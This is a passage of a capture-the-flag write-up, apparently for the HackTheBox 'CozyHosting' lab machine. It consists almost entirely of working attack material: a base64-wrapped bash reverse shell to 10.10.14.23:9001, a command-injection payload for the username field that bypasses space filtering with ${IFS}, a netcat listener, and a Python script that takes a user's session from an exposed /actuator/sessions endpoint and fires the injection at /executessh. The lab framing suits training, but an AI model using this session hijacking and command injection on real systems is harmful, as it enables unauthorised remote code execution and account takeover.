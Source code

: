 Result:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK
```

The complete payload (in the username field):

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK"|base64${IFS}-d|bash;
```

We can start a listener on our host :

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !

In order to get an automated way to get this reverse-shell (using session cookie, and trigger the payload), we can use this python script :


python code to get access :

```python
#!/usr/bin/python3

import base64, requests, sys, urllib

BaseUrl = 'http://cozyhosting.htb'

response = requests.get( BaseUrl + '/actuator/sessions')
print( "Response code: " + str( response.status_code ) )

if response.status_code != 200:
    sys.exit( -1 )

print( response.text )

sessions = response.json()
print( sessions )

# kanderson session key
targetSession = [k for k in sessions.items() if k[1]=='kanderson'][0][0]

print( 'targetSession: ' + targetSession )

payload = 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1;'
print( payload )
payloadB64 =  base64.b64encode( bytes( payload, 'ascii' ) ).decode('utf-8')
print( payloadB64 )
payloadAll = ';echo${IFS}"' + str(payloadB64) + '"|base64${IFS}-d|bash;' 

cookies = {'JSESSIONID': targetSession}

datas = { 'host': '127.0.0.1',
        'username': payloadAll
        }
print(cookies)
print(datas)
response = requests.post(  BaseUrl + '/executessh' , cookies=cookies, data=datas)
print( response.status_code )
print( response.headers )
```
